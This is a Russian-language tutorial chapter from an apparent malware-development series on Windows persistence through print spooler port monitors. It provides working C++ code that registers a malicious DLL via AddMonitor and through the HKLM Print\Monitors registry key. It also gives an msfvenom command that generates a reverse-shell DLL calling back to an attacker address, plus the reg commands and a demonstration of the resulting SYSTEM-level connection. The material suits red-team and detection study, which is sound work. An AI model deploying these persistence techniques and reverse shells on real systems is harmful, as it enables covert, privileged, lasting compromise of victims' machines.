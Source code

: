 \newpage
\subsection{74. Разработка вредоносного ПО: закрепление (persistence) - часть 8. Мониторы портов. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/59/2022-06-20_19-35.png){width="80%"}    

Этот пост является результатом самостоятельного исследования одного из интересных методов закрепления вредоносного ПО: Мониторы портов.    

### мониторы портов

Монитор порта в этом контексте относится к службе Windows Print Spooler (`spoolv.exe`). При добавлении монитора порта пользователь (или атакующий) может добавить произвольную DLL, которая будет служить *"монитором"*.    

Существует два основных способа добавить монитор порта, то есть вредоносную DLL: через реестр (для закрепления) или с помощью пользовательского приложения Windows (`AddMonitor`), что приведёт к немедленному выполнению DLL.    

### добавление монитора

С помощью Win32 API, а именно функции `AddMonitor` из API диспетчера очереди печати:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

можно добавить произвольный монитор DLL во время работы системы. Заметьте, что для добавления монитора требуются права локального администратора.    

Пример исходного кода монитора:

```cpp
/*
monitor.cpp
закрепление Windows через мониторы портов
регистрация монитора порта
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}
```

Скомпилируем его:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwinspool
```

![pers](./images/59/2022-06-20_08-17.png){width="80%"}    

Также создадим "вредоносную" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](./images/59/2022-06-20_19-24.png){width="80%"}    

После компиляции кода будет создан исполняемый файл (`monitor.exe`), который зарегистрирует вредоносную DLL (`evil2.dll`) в системе.    

### демонстрация добавления "монитора"

Копируем файлы и запускаем:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](./images/59/2022-06-20_19-28.png){width="80%"}    

### закрепление через реестр

Список под-ключей мониторов портов можно найти в узле        
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`.       
Каждый ключ должен содержать запись `REG_SZ`, указывающую на `Drivers` DLL. При запуске системы каждая из этих DLL будет выполняться от имени `SYSTEM`.    

Сначала, перед выполнением вредоносных действий, проверяем под-ключи:

```powershell
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors" \
/s
```

![pers](./images/59/2022-06-20_15-48.png){width="80%"}    

Затем добавляем под-ключ `Meow` и значение `Driver`:

```powershell
reg add \
"HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow"
 /v "Driver" /d "evil2.dll" /t REG_SZ
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors"
 /s
```

![pers](./images/59/2022-06-20_18-17.png){width="80%"}    

Как видно, всё выполнено корректно. Затем перезагружаем машину жертвы:

![pers](./images/59/2022-06-20_18-17_1.png){width="80%"}    

![pers](./images/59/2022-06-20_18-17_2.png){width="80%"}    

И через несколько минут:

![pers](./images/59/2022-06-20_19-30.png){width="80%"}    

![pers](./images/59/2022-06-20_19-31.png){width="80%"}    

Проверяем вкладку `Network` в Process Hacker 2:

![pers](./images/59/2022-06-20_19-34.png){width="80%"}    

Можно увидеть, что `evil2.dll` используется `spoolsv.exe (PID: 4616)`, который в конечном итоге порождает `rundll32` с нашим вредоносным кодом, создавая соединение с атакующим:

![pers](./images/59/2022-06-20_19-33.png){width="80%"}    

очистка после экспериментов

```powershell
Remove-ItemProperty -Path \
"HKLM:\System\CurrentControlSet\Control\Print\Monitors\
Meow" -Name "Driver"
```

![pers](./images/59/2022-06-20_21-22.png){width="80%"}    

"Грязный" PoC для закрепления через реестр:

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, 
    (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

Во время Defcon 22 Брэди Блоксхэм [продемонстрировал](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) этот метод закрепления. Этот метод требует прав администратора, а DLL-файл должен быть сохранен на диске.
Остается вопрос, используют ли какие-либо APT этот метод в реальных условиях.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[исходный код на Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   
